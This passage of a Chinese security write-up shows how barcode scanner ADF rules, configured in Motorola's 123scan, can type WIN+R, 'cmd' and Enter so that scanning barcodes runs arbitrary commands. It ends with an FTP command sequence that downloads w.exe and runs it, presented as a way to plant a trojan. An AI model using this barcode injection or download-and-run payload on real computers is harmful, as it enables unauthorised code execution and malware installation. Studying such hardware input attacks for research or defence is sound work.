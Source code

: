 在ADF中称为GUI R，既然知道了可以WIN+R的键，利用上面的规则就可以弹出cmd执行了。但这样还是不行，因为输入的是由系统自动输入，速度是手打无法可比的，当你执行到GUI R，再执行"c","m","d"，`win+r`的对话框还没有出来就已经输入了cmd，所有要延时，而ADF就支持，相当于编程中的`sleep()`。

![p21](http://drops.javaweb.org/uploads/images/8d8ba716990fe0ce18790f65c29f380c618fe69f.jpg)

在录ADF规则时，扫描延时后要输入两个Numeric，例如依次0和1两个码，就代表延时0.1秒，0和5就代表0.5秒，默认是延时1秒。

知道这些ADF条形码后就可以构建弹出cmd，然后再利用控制字符执行命令，主要是Enter。但如果要按照以上这么搞的话，仅是弹出一个cmd窗口就要十多个条形码了，也就是说扫描器要扫十多次。可以先看看腾讯玄武实验室的demo视频：

[https://twitter.com/tombkeeper/status/663730674017300480](https://twitter.com/tombkeeper/status/663730674017300480)

视频中用了一叠条形码，依次扫描，扫描了十多次就出来个cmd，可能这与扫描器型号也有关系。

![p22](http://drops.javaweb.org/uploads/images/d4a86cae2a74f5ace2c28753b4cb4584706ca8d4.jpg)

这样的话不管是规则生成和利用都非常繁琐，其实是可以优化的，ADF的规则可以合并。利用motorola的扫描器软件123scan。

![p23](http://drops.javaweb.org/uploads/images/ee065057b65c11e805beb140fe07cb332e441aa6.jpg)

123scan是摩托罗拉官方出品非常强大的扫描器管理软件，在其官网可以下载。功能很多，在这里就介绍利用123scan设置ADF。

打开后点击"Create new configuration file"->"My scanner is NOT connected"->选择扫描器->"Mondify data"->"Program complex data modifications"->"Create a new rule"。

![p24](http://drops.javaweb.org/uploads/images/6c9818e7752121f63ef8f28a88ab02e240cf2460.jpg)

点击Add action就是添加规则。

![p25](http://drops.javaweb.org/uploads/images/0d3f88487b631d19cd55ef307dc61340b81d5f8e.jpg)

ADF所有规则都在里面，包括Beep控制（控制扫描器蜂鸣），Replace等。

![p26](http://drops.javaweb.org/uploads/images/3dcbc1d1fe06a37bcd5b3feba64ba55a044cd1b0.jpg)

设置延时0.5秒，依次添加规则。

![p27](http://drops.javaweb.org/uploads/images/d40301f81e5625c90d7f53f9aa568570aefababb.jpg)

最后会自动合并条形码并输出。

![p28](http://drops.javaweb.org/uploads/images/9e2d5f7a4b9708659926acb89544d0a40699ef38.jpg)

以上就是执行任意命令的条形码payload，除去1和2的设置出厂设置和清除所有规则，只需要4个条形码就可以执行任意单条命令。其中Send ALL that remains是代表设置ADF后扫描条形码的原本数据。 以上四组条形码的ADF流程是:输入WIN+R键->延时0.5秒->输入c键->输入m键->输入d键->输入回车->延时0.5秒->执行条形码的内容，而随后的Send ALL that remains就是你要执行的命令，可以多行命令，要是单行命令基本上4条就够不需要加Send ALL that remains。

**利用ADF种植木马**

既然已经可以执行cmd命令，最简单的方法就是利用ftp下载执行任意程序。上面提到的Send ALL that remains可以用BarTender生成出FTP命令。

![p29](http://drops.javaweb.org/uploads/images/b2bd6be645907af85dc1da9f64ee540cf14b205a.jpg)

```
ftp test«CR»a«CR»a«CR»get w.exe«CR»bye«CR»w.exe«CR»get w.exe«CR»bye«CR»w.exe«CR»

```
